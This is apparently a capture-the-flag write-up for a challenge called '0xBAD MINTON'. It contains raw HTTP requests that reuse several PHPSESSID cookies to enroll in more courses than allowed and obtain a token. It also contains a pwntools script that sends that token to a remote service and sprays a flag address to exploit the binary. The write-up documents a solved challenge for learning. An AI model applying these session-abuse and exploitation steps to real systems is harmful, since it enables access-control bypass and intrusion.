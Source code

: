 # 0xBAD MINTON

## Generate token which has more than 3 courses enrolled
* Login to one account by multiple `PHPSESSID` value, after login with `PHPSESSID=z1`, change that value and login again. E.g: z1,z2,z3

```
GET /login.php?username=tokiomonster17&password=tokiomonster17 HTTP/1.1
Host: 178.128.84.72
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://178.128.84.72/courses.php
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=z1
Connection: close
``` 

* Enroll courses with PHPSESSID: z1,z2,z3

```
GET /login.php?action=enroll HTTP/1.1
Host: 178.128.84.72
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://178.128.84.72/courses.php
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=z2
Connection: close
```

* Now we have token that have more than 3 courses enrolled

```
GET /courses.php HTTP/1.1
Host: 178.128.84.72
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://178.128.84.72/courses.php
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=z3
Connection: close
```

```
<a class="btn btn-outline-primary" style="border-radius: 5px 0px 0px 5px;" href="http://178.128.84.72/login.php?action=logout">Hello tokiomonster17</a>
<a class="btn btn-outline-success" style="border-radius: 0px 0px 0px 0px;" href="#">Enrolled: 6 courses</a>
<a class="btn btn-outline-danger" style="border-radius: 0px 5px 5px 0px;" href="#3ae3566f837d529c3104a2734ecc596347918aaf78db90501d380b66d0de8992">Token: 3ae3566f837d529c3104a2734ecc596347918aaf78db90501d380b66d0de8992</a>
```

## Pwn

```
from pwn import *

r = remote('178.128.84.72',9997)

FLAG = 0x604070
token = '3ae3566f837d529c3104a2734ecc596347918aaf78db90501d380b66d0de8992'
r.recvuntil("Token> ")
r.sendline(token)
r.recvuntil(">")
r.send(p64(FLAG)*128)
r.recvuntil(">")
r.send(p64(FLAG)*128)
r.recvuntil(">")
r.send(p64(FLAG)*128)
r.recvuntil(">")
r.send(p64(FLAG)*128)
r.recvuntil(">")
r.send(p64(FLAG)*128)
r.sendline("3")
r.interactive()
```